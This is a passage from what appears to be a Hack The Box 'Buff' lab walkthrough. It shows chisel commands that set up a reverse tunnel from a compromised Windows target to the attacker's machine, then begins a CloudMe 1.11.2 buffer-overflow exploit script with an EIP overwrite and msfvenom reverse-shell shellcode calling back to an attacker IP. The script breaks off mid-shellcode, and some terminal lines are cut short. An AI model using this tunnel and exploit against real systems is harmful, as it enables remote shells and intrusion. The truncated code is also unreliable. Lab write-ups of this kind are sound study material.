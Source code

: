 first, run this command on your teminal

```
chisel server --reverse --port 9002 --host <myip>
```
now, run this command on machine target

```
chisel.exe client <myip>:9002 R:8888:localhost:8888
```

if successfully connected will be like this

your terminal 
```
┌──(justakazh㉿youknowitsme)-[/htb/easy/buff/exploit
└─$ chisel server --reverse --port 9002 --host 10.10
2023/10/19 09:49:51 server: Reverse tunnelling enabl
2023/10/19 09:49:51 server: Fingerprint zZNJ6KbatKz8Y=
2023/10/19 09:49:51 server: Listening on http://10.1
2023/10/19 09:50:05 server: session#1: Client versioversion (1.8.1-0kali2)
2023/10/19 09:50:05 server: session#1: tun: proxy#R:g
```

machine 
```
:\xampp\htdocs\gym\upload>C:\windows\temp\chisel.exe 88:localhost:8888
C:\windows\temp\chisel.exe client 10.10.14.49:9002 R:8
2023/10/19 14:49:51 client: Connecting to ws://10.10.1
2023/10/19 14:49:53 client: Connected (Latency 180.896
```

to confirm is tunneled, you can run this command
```
netstat -tpln
```
if you found `0.0.0.0:8888` from chisel, it's already tunneled.

let's go back to the payload!
we need to change some additional information such as target variable, and payload. we must change the target to your htb ip.
so, the finnal payload will be like this :


```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "10.10.14.49" #ur htb ip

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30


#msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
payload =  b""
payload += b"\xda\xcb\xd9\x74\x24\xf4\xbf\xb8\x8d\xb9\x34"
payload += b"\x5b\x33\xc9\xb1\x52\x31\x7b\x17\x03\x7b\x17"
```
